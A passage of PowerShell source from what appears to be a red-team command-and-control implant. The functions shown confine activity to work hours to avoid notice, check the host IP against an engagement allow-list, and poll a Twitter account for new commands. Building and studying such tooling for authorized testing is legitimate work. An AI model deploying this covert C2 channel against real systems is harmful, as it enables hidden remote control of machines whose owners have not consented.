         #Function to make sure that the script doesn't generate network traffic during off hours
        Function CheckWorkHours {
            #Check to see if its between work hours
            $StartTimeCheck = (Get-Date) -ge (Get-Date $WorkStart)
            $EndTimeCheck = (Get-Date) -le (Get-Date $WorkEnd)    
                if (($StartTimeCheck -eq $True) -and ($EndTimeCheck -eq $True)) {
                    Write-Verbose "It is during work hours. Continuing"
                }
                
                else {
                    Write-Verbose "Not during work hours. Restarting"
                    Invoke-TwitterBot
                }
        }
        
        #Function to ensure that the IP is a valid target to prevent running on off-limits machines        
        Function CheckIPAddress {
            #Check to see if IP address is in allowed range
            Write-Verbose "The following IPs are allowed: $EngagementIPs"
            #Lists all ip addresses (IPV4 and IPV6) for all adapters as an array: $HostIpAddresses = @([System.Net.Dns]::GetHostEntry($env:COMPUTERNAME).addresslist.ipaddresstostring)
            #This only returns IPV4 but works more reliably
            $HostIpAddresses = [Net.NetworkInformation.NetworkInterface]::GetAllNetworkInterfaces() | % {$_.GetIPProperties()} | %{$_.UnicastAddresses} | % {$_.Address} | ? {$_.Address} | % {$_.IPAddressToString}
            
            [string[]] $CheckAnswer = @()
                
                foreach ($IpAddress in $HostIpAddresses) { 
                    $CheckAnswer += $EngagementIPs.Contains("$IpAddress")
                    Write-Verbose "Checking if $IpAddress is allowed"
                    Write-Verbose $CheckAnswer[-1]
                }
            
                if ($CheckAnswer -notcontains "True") {
                    Write-Verbose "No allowed IP address found. Checking external IP"
                    #Lets check the external IP in case it is NAT'd
                    #Changed site to ifconfig.me thanks to Matt Graeber
                    $ExternalIpAddress = $WebClientObject.downloadString('http://ifconfig.me/ip')
                    $CheckAnswer += $AllowedAddress.Contains("$ExternalIpAddress")
                    $WebClientObject.Dispose()
                }

                if ($CheckAnswer -notcontains "True") {
                    Write-Verbose "No allowed internal or external addresses found. Exiting"
                    Exit
                }
         
            Write-Verbose "Allowed IP address found. Continuing"
        }

        #Function to grab the latest tweet
        Function GetLatestTweet {
            #Check the C2 twitter feed for new instructions
            [string] $TwitterAPIv1URL = "http://api.twitter.com/1/statuses/user_timeline.xml?screen_name=$TwitterUserName&count=1&page=1"
            Write-Verbose "The C2 twitter handle is:  $TwitterUserName"
            Write-Verbose "Checking latest tweet at:  $TwitterAPIv1URL"
            [xml] $XMLTwitterResult = $WebClientObject.downloadString($TwitterAPIv1URL)
            [string] $LatestTweet = $XMLTwitterResult.statuses.status.text
            [int32] $TweetLength = $LatestTweet.Length
            Write-Verbose "The LatestTweet is:  $LatestTweet"
            Write-Verbose "The tweet contains $TweetLength characters"
            $WebClientObject.Dispose()
            Return $LatestTweet
        }
